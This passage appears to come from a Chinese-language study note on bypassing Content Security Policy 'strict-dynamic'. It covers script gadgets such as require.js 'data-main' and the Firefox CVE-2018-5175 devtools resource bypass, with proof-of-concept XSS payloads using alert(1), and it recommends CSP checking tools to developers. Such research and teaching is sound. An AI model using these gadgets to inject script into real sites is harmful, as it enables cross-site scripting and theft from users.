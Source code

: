   ```js
  script.src = 'test.com/dependency.js';
  document.body.appendChild(script);
  // 不可
  document.write("<scr"+"ipt src='test.com/dependency.js'></scr"+"ipt>");
  ```
  `createElement`時，element還屬於非parser-inserted屬性的，使用`documemt.write`的話就是parser-inserted屬性的了  

  :cat2:**Script Gadgets**：  
  [security-research-pocs by Google](https://github.com/google/security-research-pocs/tree/master/script-gadgets)  
  Script Gadget是指一些已存在的js code用來bypass xss mitigations  
  ```js
  // bypass with require.js
  Content-Security-Policy: "default-src='none';script-src 'nonce-random' 'strict-dynamic'"
  <script data-main="data:,alert(1)"></script>
  <script nonce="random" src="require.js"></script>
  // 原因：require.js在找到帶有data-main屬性的script時，會如下載入
  var node = document.createElement('script');
  node.src = 'data:,alert(1)';
  document.head.appendChild(node);
  // 如上面提到的，非parser-inserted
  ```

  :cat2:**CVE-2018-5175** (利用**add-on**繞過strict-dynamic)：  
  [首先extension和add-on都是些什麼東西？](https://developer.mozilla.org/zh-TW/Add-ons/WebExtensions)  
  legacy-extension就是那些過去以XUL/XPCOM為基礎所建造的擴充，雖然2017/11後基礎已改為Web-extensions，但瀏覽器內部至今還多使用這個機制  
  這裡我們必須了解`manifest`下的`web_accessible_resources`(webextension)以及`contentaccessible flag`(legacy extension)，被這個`url contentaccessible=yes`的resource可以從任何頁面載入，這裡就有個弊端了，**任何頁面載入並且不需要nonce允許**！  
  ```json
  ....
  resource devtools devtools/modules/devtools/
  resource devtools-client-jsonview resouce://devtools/client/jsonview/ contentaccessible=yes
  ....
  ```
  上面是firefox extension下`manifest`的一部分，可以知道`resource://devtools`下面的file都可以從任何頁面載入而不需要nonce的允許，而`resource://devtools/client/jsonview/lib/require.js`也不例外。  
  ```js
  <!-- exploit -->
  csp: strict-dynamic...

  <script data-main="data:,alert(1)"></script>
  <script src="resource://devtools-client-jsonview/lib/require.js"></script>
  ```
  所以我們不需要nonce也能讓`require.js`載入執行，靠script-gadget中提到`require.js`尋找`data-main`屬性，不難理解這個xss的攻擊就會成功bypass csp了！  

  若不是框架中帶有的script-gadget，就從開發者的code中自己找一個，以下為思路：  
  某段script中將`attribute`的值插入`innerHTML`;  

以web開發人員的角度推薦幾個工具：  
1. [CSP Evaluator](https://csp-evaluator.withgoogle.com/)  
2. [ChromePlugin-CSP Mitigator](https://chrome.google.com/webstore/detail/csp-mitigator/gijlobangojajlbodabkpjpheeeokhfa)  
